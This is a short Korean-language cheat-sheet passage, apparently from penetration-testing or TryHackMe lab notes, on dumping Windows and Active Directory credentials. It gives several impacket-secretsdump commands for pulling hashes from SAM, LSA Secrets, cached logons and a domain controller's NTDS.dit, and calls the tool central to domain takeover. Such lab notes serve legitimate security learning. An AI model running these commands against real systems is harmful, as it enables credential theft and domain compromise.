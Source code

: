 

### **크리덴셜 덤프 및 파일 공유 (Credential Dumping & File Sharing)**

- **목적:** 원격 시스템의 SAM, LSA Secrets, NTDS.dit 등에서 모든 종류의 크리덴셜을 덤프합니다.
- **특징:** 도메인 장악의 핵심 도구입니다.
```bash
# 원격 시스템의 모든 해시 덤프 (SAM, LSA, cached)
impacket-secretsdump <domain>/<user>:<password>@$target

# 도메인 컨트롤러의 NTDS.dit 덤프
impacket-secretsdump <domain>/<DA_user>:<password>@<DC_IP> -just-dc-ntlm

# GetST로 캐시 생성 후
impacket-secretsdump -k -no-pass HayStack.thm.corp

# ntds.dit, SYSTEM, SAM 파일 획득한 경우
impacket-secretsdump -ntds ntds.dit -sam sam -system system local
```

